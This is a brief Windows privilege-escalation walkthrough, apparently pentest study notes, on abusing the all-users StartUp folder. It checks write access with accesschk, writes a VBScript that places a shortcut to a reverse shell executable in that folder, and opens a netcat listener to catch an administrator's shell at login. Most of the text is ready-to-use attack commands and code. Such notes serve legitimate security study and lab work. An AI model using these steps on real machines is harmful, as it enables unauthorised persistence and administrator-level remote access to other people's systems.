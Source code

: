 - - -
Each User can define apps that start when they log in, by placing shortcuts to them in a specific directory.
- - -

Windows also has a **STARTUP** Directory for apps that should start for all users:

```powershell
C:\ProgramData\MicroSoft\Windows\Start Menu\Programs\StartUp
```

If we create files in this directory, we can use our reverse shell executable and escalate privileges when an admin logs in.

- - -
## Veryfying :

Do we have write permissions in the existing binary path. Note at your GROUP in the results.

```powershell
.\accesschk.exe /accepteula -d "C:\ProgramData\MicroSoft\Windows\Start Menu\Programs\StartUp"
```
 
Create A File “**CreateShortcut.vbs**” with the following contents.

```powershell
set oWS = WScript.CreateObject("WScript.Shell")  
sLinkFile = "C:\ProgramData\MicroSoft\Windows\Start Menu\Programs\StartUp\reverse.lnk"  
Set oLink = oWS.CreateShortcut(sLinkFile)  
oLink.TargetPath = "C:\Path\To\reverse.exe"  
oLink.Save
```

```cmd
cscript CreateShortcut.vbs
```

```sh
nc -nvlp 9090
``` 

Now wait for Admin to Login......
- - -


